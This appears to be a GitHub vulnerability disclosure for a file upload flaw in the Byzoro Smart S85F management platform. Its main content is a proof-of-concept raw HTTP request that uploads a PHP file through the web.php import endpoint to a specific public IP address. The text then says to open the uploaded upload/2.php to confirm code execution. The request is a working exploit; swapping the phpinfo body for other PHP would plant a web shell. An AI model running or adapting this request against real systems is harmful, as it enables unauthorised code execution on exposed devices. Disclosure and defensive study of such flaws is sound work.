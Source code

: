   A file upload vulnerability exists in the database management of the Smart S85F management platform

  official website:https://www.byzoro.com/

  version:Smart S85F

  See the login page.

  ![WPS图片(1)](https://github.com/torres14852/cve/assets/41352348/c52e2024-f34d-4085-808c-16bd2881d479)

Construct the POC and upload the file successfully

POC
```
POST /useratte/web.php? HTTP/1.1
Host: 222.180.2.66:8443
Cookie: PHPSESSID=3b0048dc500aea61e25f3b1de573f65d
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 598
Origin: https://222.180.2.66:8443
Referer: https://222.180.2.66:8443/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328—
```

![WPS图片(2)](https://github.com/torres14852/cve/assets/41352348/54856ba2-9b46-4544-b712-21012364c294)

access upload/2.php

![WPS图片(3)](https://github.com/torres14852/cve/assets/41352348/a4f77ee4-2527-4d17-a01c-c652aa041e17)
